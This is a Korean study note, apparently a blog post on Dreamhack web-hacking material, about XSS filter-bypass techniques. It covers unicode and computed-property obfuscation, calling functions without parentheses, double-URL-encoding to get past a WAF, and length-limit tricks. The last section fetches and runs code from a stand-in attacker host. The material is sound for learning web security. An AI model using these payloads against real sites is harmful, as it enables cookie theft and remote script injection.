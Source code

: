 ```yaml
---
layout : single
title : "STAGE2. XSS Filtering Bypass (2)"
categories: Security
tag: [dreamhack, webhacking]
sidebar:
    nav: "docs"
---
```


# Web Hacking Advanced(Client Side) - XSS Filtering Bypass

- [x] 자바스크립트 함수 및 키워드 필터링
- [x] 디코딩 전 필터링, 길이 제한

## Exploit Tech : XSS Filtering Bypass - 2

### 자바스크립트 함수 및 키워드 필터링

js는 Unicode escape sequence와 Computed member access를 지원한다. 

Unicode escape sequence : "\uAC00" == "가"와 같이 문자열에서 유니코드 문자를 코드포인트로 나타낼 수 있는 표기법

```javascript
var foo = "\u0063ookie";  // cookie
var bar = "cooki\x65";  // cookie
\u0061lert(document.cookie);  // alert(document.cookie)
```

Computed member access : 객체의 특성 속성에 접근할 때 속성 이름을 동적으로 계산하는 기능 ("coo"+"kie" = "cookie")

```javascript
alert(document["\u0063ook" + "ie"]);  // alert(document.cookie)
window['al\x65rt'](document["\u0063ook" + "ie"]);  // alert(document.cookie)
```

따라서, XSS 공격 구문의 자바스크립트 키워드를 필터링한 경우, 우회할 수 있는 방법이 매우 다양하다. 

|구문|대체구문|
|:---|:---|
|alert, XMLHttpRequest 등 문서 최상위 객체 및 함수|window['al'+'ert'], window['XMLHtt'+'pRequest'] 등 이름 끊어서 쓰기|
|window|self, this|
|eval(code)|Function(code)()|
|Function|isNaN['constr'+'uctor'] 등 함수의 constructor 속성 접근|

극단적인 경우, js의 언어적 틀성을 활용하여 6개의 문자 (,),[,],!,+ 만으로 모든 동작을 수행할 수 있다. 이 기법은 cookie와 같이 기존 xss 필터링에서 주로 탐지하는 단어들을 언급하지 않아도 된다는 장점이 있으나, 공격구문의 길이가 늘어난다는 단점이 존재한다.

---

필터링 혹은 인코딩/디코딩 등의 이유로 특정 문자 ((),[],",') 가 제한당한 경우

##### 문자열 선언

1) Template Literals

문자열을 사용할 때 필요한 ", '가 필터링되어있다면, 템플릿 리터럴을 사용할 수 있다. 템플릿 리터럴은 내장된 표현식을 허용하는 문자열 리터럴이며, 여러 줄로 이루어진 문자열과 문자를 보관하기 위한 기능으로 이용할 수 있다. 템플릿 리터럴은 `을 사용하여 선언할 수 있으며, 내장된 ${}표현식을 이용해 다른 변수나 식을 사용할 수 있다.

```javascript
var foo = "Hello";
var bar = "World";
var baz = `${foo},
${bar} ${1+1}.`; // "Hello,\nWorld 2."
```

2) RegExp 객체

/Hello World!/ 형태로 RegExp 객체를 생성하고 객체의 패턴을 가져옴으로서 문자열을 생성

```javascript
var foo = /Hello World!/.source;  // "Hello World!"
var bar = /test !/ + [];  // "/test !/"
```

3) String.fromCharCode

String.fromCharCode는 유니코드의 범위 중 파라미터로 전달된 수에 해당하는 문자를 반환

```javascript
var foo = String.fromCharCode(72, 101, 108, 108, 111);  // "Hello"
```

4) 기본 내장함수, 객체의 문자 사용

원하는 문자열을 만드는 데 필요한 문자들을 내장함수 또는 객체로부터 한 글자씩 가져와 문자열을 만들 수 있다

```javascript
var baz = history.toString()[8] + // "H"
(history+[])[9] + // "i"
(URL+0)[12] + // "("
(URL+0)[13]; // ")" ==> "Hi()"
```

\* history.toString() -> "[object History]" / URL.toString() -> "function URL() { [native code] }" , history+[]; history+0; 와 같이 함수나 객체와 산술 연산을 수행하게 되면 연산을 위해 객체 내부적으로 toString 함수를 호출해 문자열로 변환한 후에 연산을 수행한다. 

5) 숫자 객체의 진법 변환

10진수 숫자를 36진수로 변경하여 아스키 영어 소문자 범위를 모두 생성할 수 있다. 이 때 E4X 연산자 ("..") 를 사용하며, 주로 점 2개를 사용하거나, 소수점으로 인식되지 않도록 공백과 점을 조합하여 사용한다

```javascript
var foo = 29234652..toString(36); // "hello"
var bar = 29234652 .toString(36); // "hello"
```

##### 함수 호출

일반적으로 자바스크립트의 함수를 호출하기 위해서는 소괄호 또는 백틱을 사용해야한다

```javascript
alert(1); // Parentheses
alert`1`; // Tagged Templates
```

소괄호와 백틱문자가 모두 필터링되어 있는 경우

1) javascript 스키마를 이용한 location 변경

javascript: 스키마를 이용하면 URL을 이용해 자바스크립트 코드를 실행시킬 수 있다. 이를 이용해 현재 location 객체를 변조하는 방식으로 자바스크립트 코드를 실행하는 것이 가능하다. 

```javascript
location="javascript:alert\x28document.domain\x29;";
location.href="javascript:alert\u0028document.domain\u0029;";
location['href']="javascript:alert\050document.domain\051;";
```

2) Symbol.hasInstance 오버라이딩

자바스크립트에서는 문자열 이외에도 ECMAScript 6에서 추가된 Symbol 또한 속성의 명칭으로 사용할 수 있다. Symbol.hasInstance well-known symbol을 이용하면, instanceof 연산자를 오버라이드 할 수 있다. 즉, 0 instanceof C를 연산할 때 C에 Symbol.hasInstance 속성에 함수가 있을 경우 메소드로 호출하여 instanceof 연산자의 결과값으로 사용하게 된다. 이 특성을 이용해 instanceof를 연산하게 되면, 실제 인스턴스 체크 대신 원하는 함수를 메소드로 호출되도록 할 수 있다. 

```javascript
"alert\x28document.domain\x29"instanceof{[Symbol.hasInstance]:eval};
Array.prototype[Symbol.hasInstance]=eval;"alert\x28document.domain\x29"instanceof[];
```

3) document.body.innerHTML 추가

document.body.innerHTML 을 통해 HTML 코드를 문서에 추가하여, 이를 통해 자바스크립트를 실행할 수 있다. (script 태그 사용 불가 / 이벤트 핸들러 사용)

```javascript
document.body.innerHTML+="<img src=x: onerror=alert&#40;1&#41;>";
document.body.innerHTML+="<body src=x: onload=alert&#40;1&#41;>";
```

### 디코딩 전 필터링

본래 입력 검증은 디코딩과 같은 모든 전처리 작업을 마치고 수행된다. 예를 들어, 클라이언트의 요청이 웹 방화벽을 거쳐 애플리케이션으로 전달되는 웹 서버의 경우, 웹 방화벽은 요청을 검증해서 XSS 공격 코드를 차단한다. 애플리케이션은 웹 방화벽을 통과한 데이터를 받아 작업을 수행한다. 이 때 애플리케이션은 전달받은 데이터를 다시 디코딩해서 사용하면 안 된다. (공격자가 더블 인코딩으로 웹 방화벽의 검증을 우회할 수 있기 때문)

\* 더블 인코딩 : 보안 제어를 무시하거나, 응용 프로그램에서 예기치 않은 동작을 일으키기 위해 매개변수를 16진수 형식으로 2번 인코딩하는 것으로, 사용자 입력을 한 번만 디코딩하는 보안 필터를 무시한다. 

1. 공격자가 더블 URL 인코딩한 공격 코드 %253Cscript%253E(이하 생략)를 포함하여 게시글 업로드 요청
2. 웹 방화벽이 해당 데이터를 디코딩 후 검증 -> 디코딩 결과인 %3Cscript%3E(이하 생략)는 안전하다고 판단하여 차단하지 않고 애플리케이션에 전달
3. 애플리케이션이 해당 데이터를 또 디코딩하여 < script >(이하 생략)를 게시판 DB에 저장합니다. (검증 후 디코딩 발생)️
4. 해당 게시글을 읽으면 XSS가 발생하여 악성 자바스크립트 코드가 실행

이처럼 웹 방화벽의 검증 이후 다시 디코딩할 경우, 공격자는 더블 URL 인코딩으로 웹 방화벽 검증을 우회할 수 있다. 뿐만 아니라, 애플리케이션 내부의 검증 로직 이후에도 디코딩을 하면 안 되며, 만약 php 애플리케이션 코드에 더블 디코딩 취약점이 존재하면, 더블 URL 인코딩을 이용해 우회하는 것이 가능하다.

```http
POST /search?query=%253Cscript%253Ealert(document.cookie)%253C/script%253E HTTP/1.1
...
-----
HTTP/1.1 200 OK
<h1>Search results for: <script>alert(document.cookie)</script></h1>
```

### 길이 제한

삽입할 수 있는 코드의 길이가 제한되어 있는 경우, 다른 경로로 실행할 추가적인 코드를 URL fragment 등으로 삽입 후 삽입 지점에는 본 코드를 실행하는 짧은 코드를 사용할 수 있다. Fragment로 스크립트를 넘겨준 후 XSS 지점에서 location.hash로 URL의 Fragment 부분을 추출하여 eval()로 샐행하는 기법이 흔히 쓰인다. 그 외에도, 쿠키에 페이로드를 저장하는 방식과 import 와 같은 외부 자원을 스크립트로 로드하는 방법 또한 사용할 수 있다. 

1) location.hash

```
https://example.com/?q=<img onerror="eval(location.hash.slice(1))">#alert(document.cookie); 
```

2) 외부 자원

```javascript
import("http://malice.dreamhack.io");
```

```javascript
var e = document.createElement('script')
e.src='http://malice.dreamhack.io';
document.appendChild(e);
```

```javascript
fetch('http://malice.dreamhack.io').then(x=>eval(x.text()))
```
